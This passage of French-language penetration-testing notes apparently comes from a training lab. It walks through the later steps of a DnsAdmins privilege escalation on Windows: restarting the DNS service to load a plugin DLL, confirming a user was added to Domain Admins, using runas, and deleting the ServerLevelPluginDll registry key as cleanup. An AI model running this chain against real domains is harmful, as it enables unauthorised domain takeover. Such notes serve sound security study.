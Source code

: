 ```cmd
sc.exe sdshow DNS
```

[[SDDL Syntax]]


#### 6. Stopper et relancer le service DNS

```cmd-session
sc stop dns
```

```cmd-session
sc start dns
```

```cmd-session
sc query dns
```

#### 7. Confirmer l'ajout de l'utilisateur au groupe "Admin du domaine"

```cmd
net group "Domain Admins" /dom
```

#### 8. Se deco / reco de la session ou Runas pour charger les droits

Runas pour recharger la session avec les droits

```
runas /netonly /user:server_adm "cmd.exe"
```

#### **Nettoyage (session as admin)**

#### 9. Vérifier la présence de la dll en clé de registre

```cmd
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```

#### 10. Supprimer la clé de registre correpsondante

```cmd-
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll
```

#### 11. Stopper et relancer le service DNS

```cmd-session
sc stop dns
```

```cmd-session
sc start dns
```
